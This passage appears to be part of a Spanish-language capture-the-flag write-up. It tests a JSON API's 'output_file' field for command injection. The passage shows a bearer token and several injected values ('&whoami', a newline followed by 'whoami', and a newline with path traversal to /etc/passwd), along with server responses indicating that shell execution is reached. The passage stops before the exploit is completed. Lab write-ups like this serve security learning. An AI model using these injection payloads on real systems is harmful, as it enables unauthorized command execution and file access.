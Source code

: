```text
-H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczODc1NDkzMSwianRpIjoiMzU5MGRjODMtNjNjMC00OTgxLWI2NDQtZjQyODFhOWE1MjdmIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTczODc1NDkzMSwiY3NyZiI6IjU1YmYyYjRkLTlkNTMtNGZlNS1hMDBkLWI5ZjJlYjRkYjhmOSIsImV4cCI6MTczODc1ODUzMX0.-FKF_--KXab_qc0LqvhSow5fIviN5YBPO6tS1QoW3wE"
```

El endpoint acepta JSON data en este formato:
```json
`{     
"command": "send_image",
"output_file": "works.jpg"
}`
```

![[Pasted image 20250205123032.png]]

la variable `output_file` puede estar mal sanitizada  y llevarnos a rce vamos a probar

# Root access
```json
{
    "command": "send_image",
    "output_file": "test.png&whoami"
}
```
Response:
```json
{"error":"Output file path contains dangerous characters"}
```

Con \n:
```json
{
    "command": "send_image",
    "output_file": "test.png\nwhoami"
}
```
Response:
```bash
{"error":"Error reading image file: [Errno 2] No such file or directory: 'test.png\\nwhoami'"}
```

Vemos que busca un directorio, vamos a probar a leer archivos;
```json
{
    "command": "send_image",
    "output_file": "nothing.png\n../../../../../etc/passwd"

}
```

```json
{"error":"Error generating image: /bin/sh: 2: ../../../../../etc/passwd: Permission denied\n"}
```
